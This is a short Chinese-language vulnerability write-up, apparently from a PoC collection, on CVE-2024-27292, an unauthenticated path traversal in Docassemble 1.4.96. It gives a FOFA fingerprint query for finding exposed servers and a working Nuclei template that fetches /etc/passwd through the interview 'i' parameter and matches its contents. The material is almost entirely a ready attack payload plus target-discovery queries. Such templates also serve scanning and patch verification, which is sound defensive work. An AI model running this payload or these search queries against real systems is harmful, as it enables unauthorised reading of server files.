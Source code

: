 ## Docassemble任意文件读取漏洞(CVE-2024-27292)

Docassemble V1.4.96 未经身份验证的路径遍历

## fofa

```
icon_hash="-575790689"
```
![image](https://github.com/user-attachments/assets/46405e60-c019-4dff-b0da-aa80560c103d)

## poc

```yaml
id: CVE-2024-27292

info:
  name: Docassemble - Local File Inclusion
  author: johnk3r
  severity: high
  description: |
    Docassemble is an expert system for guided interviews and document assembly. The vulnerability allows attackers to gain unauthorized access to information on the system through URL manipulation. It affects versions 1.4.53 to 1.4.96. The vulnerability has been patched in version 1.4.97 of the master branch.
  reference:
    - https://tantosec.com/blog/docassemble/
    - https://github.com/jhpyle/docassemble/security/advisories/GHSA-jq57-3w7p-vwvv
    - https://github.com/jhpyle/docassemble/commit/97f77dc486a26a22ba804765bfd7058aabd600c9
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
    cvss-score: 7.5
    cve-id: CVE-2024-27292
    cwe-id: CWE-706
    epss-score: 0.00043
    epss-percentile: 0.0866
  metadata:
    verified: true
    max-request: 1
    shodan-query: http.title:"docassemble"
    fofa-query: icon_hash="-575790689"
  tags: cve,cve2024,docassemble,lfi

http:
  - method: GET
    path:
      - "{{BaseURL}}/interview?i=/etc/passwd"

    matchers-condition: and
    matchers:
      - type: regex
        regex:
          - "root:.*:0:0:"

      - type: status
        status:
          - 501
```

![image-20240705163642789](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407051636890.png)

## 漏洞来源

- https://github.com/projectdiscovery/nuclei-templates/pull/10169/files
- https://github.com/th3gokul/CVE-2024-27292
